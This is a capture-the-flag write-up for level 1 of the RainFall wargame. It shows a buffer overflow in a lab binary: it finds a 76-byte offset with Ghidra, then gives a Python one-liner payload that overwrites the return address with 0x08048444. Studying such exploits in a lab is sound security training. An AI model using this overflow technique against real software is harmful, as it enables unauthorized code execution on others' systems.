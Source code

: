 # Level 1


### In this level, we have to exploit a buffer overflow

```bash
level1@RainFall:~$ ./level1 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
level1@RainFall:~$ ./level1 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault (core dumped)
level1@RainFall:~$
```
With ghidra, we can see that the overflow will be done after 76 bytes, let's write 76 characters with python, it will be easier for the next steps

```bash
level1@RainFall:~$ python -c "print('a' * 76)" | ./level1 
Illegal instruction (core dumped)
```
Let's use gdb to have more informations about this executable ([click here](gdbwriteup.md))

After some searchs, we found that the address that we will need to use for the exploit is `0x08048444`

We will have to enter it reversly
```bash
level1@RainFall:~$ (python -c "print('a' * 76 + '\x44\x84\x04\x08')"; cat) | ./level1
```